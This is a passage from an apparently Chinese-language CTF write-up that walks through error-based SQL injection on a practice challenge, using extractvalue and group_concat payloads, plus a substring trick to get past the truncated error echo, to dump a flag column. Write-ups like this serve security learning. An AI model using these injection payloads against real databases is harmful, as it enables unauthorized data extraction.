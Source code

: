 - **`information_schema.columns`**: 系统表存储字段信息
- **`table_name='test_tb'`**: 指定目标表

 发现flag，查看字段内容

```sql
1' and 1=extractvalue(1,concat('~',(select group_concat(id,'~',flag) from test_tb)))#
```

![image-20250806223606189](nssctf1.assets/image-20250806223606189.png)

- **`group_concat(id,'~',flag)`**: 合并所有记录的 id 和 flag

只有一半，是因为回显不够吗，那我们自己设定一个回显个数

```sql
1' and 1=extractvalue(1,concat('~',(select substring(group_concat(id,'~',flag),31,32) from test_tb)))#
```

因为我们第一次爆出的字段内容为30个，所以我们从第31个字段继续显示

![image-20250806223722472](nssctf1.assets/image-20250806223722472.png)

- **`substring(...,31,32)`**: 从第 31 字符开始取 32 字符

 两段flag进行拼接就得到flag啦

# [SWPUCTF 2021 新生赛]easy_sql
